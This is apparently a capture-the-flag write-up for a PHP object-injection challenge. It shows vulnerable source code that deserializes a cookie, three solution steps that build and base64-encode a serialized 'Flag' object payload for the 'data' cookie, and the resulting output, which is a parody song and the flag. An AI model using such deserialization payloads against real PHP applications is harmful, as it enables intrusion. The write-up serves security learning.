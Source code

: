 ```
<?php

include "flag.php";

class Flag {
    public function __destruct() {
       global $flag;
       echo $flag; 
    }
}

if (isset ($_POST['value']) and ! empty ($_POST['value'])) {
    /* Add a value twice to remove it from the list. */
    if (($key = array_search ($_POST['value'], $data)) !== false) {
        unset ($data[$key]);
    } else { /* Else, simply add it. */
        array_push ($data, $_POST['value']);
    }
    setcookie ('data', base64_encode (serialize ($data)));
}

?>
```
STEP 1: Serialize the Flag class object with custom with Custom Object
OUTPUT: C:4:"Flag":0:{}

STEP 2: Base64 Encode of Output
OUTPUT: Qzo0OiJGbGFnIjowOnt9

STEP 3: Set the cookie value(data) as Qzo0OiJGbGFnIjowOnt9
OUTPUT: 
I threw a class in the well Don't ask me I'll never tell I looked at you as it fell 
And now you're in my way I trade my soul for a shell Pennies and dimes for a leak I
wasn't looking for this But now you're in my way Your stare was holding Ripped code
stacktrace was showing Hot night Wind was blowing Where you think you're going baby?
Hey I just met you And this is crazy But here's my method So call it maybe It's hard 
to look right at you baby But here's my method So call it maybe Hey I just met you And 
this is crazy But here's my method So call it maybe And all the other hackers Try to 
chase me But here's it method So call me maybe 
WEBSEC{CVE-2012-5692_was_a_lof_of_phun_thanks_to_i0n1c_but_this_was_not_the_only_bypass}
